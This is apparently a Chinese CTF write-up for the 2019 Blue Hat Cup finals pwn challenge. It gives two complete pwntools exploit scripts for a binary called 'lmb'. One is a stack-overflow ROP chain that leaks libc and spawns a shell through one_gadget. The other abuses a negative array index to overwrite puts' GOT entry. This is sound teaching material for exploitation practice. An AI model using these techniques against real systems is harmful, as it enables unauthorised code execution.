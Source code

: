 # 2019蓝帽杯决赛pwn
## Exploit 0x1 ：栈溢出  
自动攻打后提交flag的脚本这里就不挂啦  
  
这道题目明显就是三道毫不相关的题目拼起来的（学长陈述）  

第一个功能getname，明显的栈溢出，甚至还有格式化字符串。  
正常的利用当然是
* 泄露libc基址  
* puts(puts_addr) OR 格式化字符串
* ret2libc :
* system(/bin/sh) OR one_gadget  
  

~~~python
from pwn import *
#from LibcSearcher import LibcSearcher
context.log_level='debug'

r = process('./lmb')
e = ELF('./lmb')
# gdb.attach(r,"b*0x00400E2c")
puts_plt = e.plt['puts']
puts_got = e.got['puts']
success(hex(puts_plt))
success(hex(puts_got))

pop_rdi = 0x401213
getname = 0x400DFD
onegadget = [0x45216,0x4526a,0xf02a4,0xf1147]
# gdb.attach(r,"b*0x400E9D")

payload = 'a' * 0x28 + p64(pop_rdi)+ p64(puts_got) + p64(puts_plt) + p64(getname)
# payload = payload.ljust(0x90, "0")

r.sendlineafter('choice:','1')
r.sendlineafter('your name','laichick')
r.recvuntil('keyword?')
r.sendline(payload)
r.recvuntil("fail\n")
puts_addr = u64(r.recv(6).ljust(8,'\x00'))
success("puts_addr   " + hex(puts_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_addr - libc.symbols["puts"]
system_addr = libc_base + libc.symbols["system"]
binsh_addr = libc_base + next(libc.search("/bin/sh"))
onegadget_addr = libc_base + onegadget[3]
# libc = LibcSearcher('puts', puts_addr)
# libcbase = puts_addr - libc.dump('puts')
# system_addr = libcbase + libc.dump('system')
# binsh_addr = libcbase + libc.dump('str_bin_sh')
# r.sendlineafter('choice:','1')

# payload = 'a' * 0x28  + p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)
payload = 'a' * 0x28 + p64(onegadget_addr)
# payload = payload.ljust(0x90,"\x00")
r.sendlineafter('your name','laichick')
r.recvuntil('keyword?')
r.sendline(payload)

r.interactive()
~~~

## Exploit 0x2 : 数组溢出  
* 在函数edit(),show()中没有对数组的下界做检查。  
* bss段上,name与结构体非常接近
* 伪造一个结构体，写入自己想要的地址，完成任意地址读写的功能。
* show()读出puts_addr
* edit()修改puts_addr为one_gadget地址  

~~~python  
from pwn import *
#from LibcSearcher import LibcSearcher
# context.log_level='debug'

r = process('./lmb')
e = ELF('./lmb')

onegad = [0x45216,0x4526a,0xf02a4,0xf1147]
puts_got = e.got['puts']
success(hex(puts_got))

def enter():
	r.sendlineafter("heap\nchoice:","3")
	r.recvuntil("name\n")
	name = p32(puts_got)+p32(0)+p32(100)+p32(1)
	r.sendline(name)

def add(size):
	r.sendline("1")
	r.recvuntil('size:')
	r.sendline(str(size))

def show(index):
	r.sendline('2')
	r.recvuntil('index:')
	r.sendline(str(index))


def edit(index,content):
	r.sendlineafter("choice","3")
	r.recvuntil('index:')
	r.sendline(str(index))
	r.recvuntil('content:')
	r.sendline(content)
# gdb.attach(r,"b*0x0400B49")

enter()
show(-6)
puts_addr = u64(r.recv(6).ljust(8,'\x00'))
log.info(hex(puts_addr))

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
libc_base = puts_addr - libc.symbols["puts"]
onegad_addr = libc_base + onegad[0]

edit(-6,p64(onegad_addr))
r.interactive()  

~~~